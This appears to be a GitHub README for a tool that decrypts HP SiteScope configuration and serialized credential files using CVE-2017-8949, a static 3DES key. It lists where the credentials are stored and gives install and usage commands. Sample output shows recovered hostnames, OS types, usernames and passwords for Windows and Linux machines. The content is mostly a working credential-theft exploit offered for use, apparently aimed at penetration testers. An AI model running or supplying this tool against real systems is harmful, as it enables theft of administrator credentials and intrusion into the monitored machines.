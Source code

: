 A tool to decrypt for HP SiteScope configuration files
=======

HP SiteScope keeps password information in two files:
* C:\SiteScope\groups\users.config is a text config file with credentials to HP SiteScope
* C:\SiteScope\persistency\???.ssf is a java serialized object file with credentials to Widnows and *nix machines

The tool uses CVE-2017-8949 vulnerability, which allows to decrypt any HP SiteScope's password using 3DES algorithm and a static key.

Installation:
```
$ npm install
$ ./decryptor.js --help
```

Usage:
```
$ ./decryptor.js -p '(sisp)va1xBRC68d2p/zkd3YVpPg=='
$ ./decryptor.js --ssf-file ./../12345678.ssf | column -t -s ';'
HOST: 10.0.0.1      OS: RHESLinux    USER: pentest                 PASSWORD: pentest
HOST: \\10.0.0.2    OS: NT           USER: PENTEST\Administrator   PASSWORD: pentest
```
